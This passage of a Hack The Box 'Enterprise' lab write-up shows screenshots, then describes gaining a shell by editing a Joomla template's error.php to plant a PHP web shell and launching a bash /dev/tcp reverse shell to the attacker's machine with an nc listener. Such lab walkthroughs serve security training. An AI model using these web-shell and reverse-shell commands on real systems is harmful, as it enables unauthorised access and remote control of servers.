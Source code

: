 <br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_061.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_062.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_063.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_064.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_065.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_066.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_067.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_068.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_069.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have the credentials to access the **Joomla CMS**, I can again try to **[send a Reverse Shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla){:target="_blank"}** to my attacking machine. The steps are somewhat similar when I did the same in the **WordPress**, I have to retouch the **error.php** file of the template and inject the command I want to run on the server, as the user **www-data** most likely. I try to pass directly the command through a parameter that I define using the **GET** method but I do not succeed, it is very likely due to the special characters, so directly in the **error.php** file I insert the command to then generate an error and get the **Reverse Shell**, I have succeeded in accessing the machine again.

```bash
# http://enterprise.htb:8080/administrator/
#      --> geordi.la.forge:....          Try combinations :)
#      --> Extensions --> Templates --> Templates --> Protostar Details and Files --> error.php
#                  system($_GET['cmd']);

# http://enterprise.htb:8080/templates/protostar/error.php?cmd=id         :)

nc -nlvp 443

# http://enterprise.htb:8080/templates/protostar/error.php?cmd=bash -c 'bash -i >&/dev/tcp/10.10.14.16/443 0>&1'    :(

#      --> system("bash -c 'bash -i >&/dev/tcp/10.10.14.16/443 0>&1'");

nc -nlvp 443

# http://enterprise.htb:8080/<>           :)
```
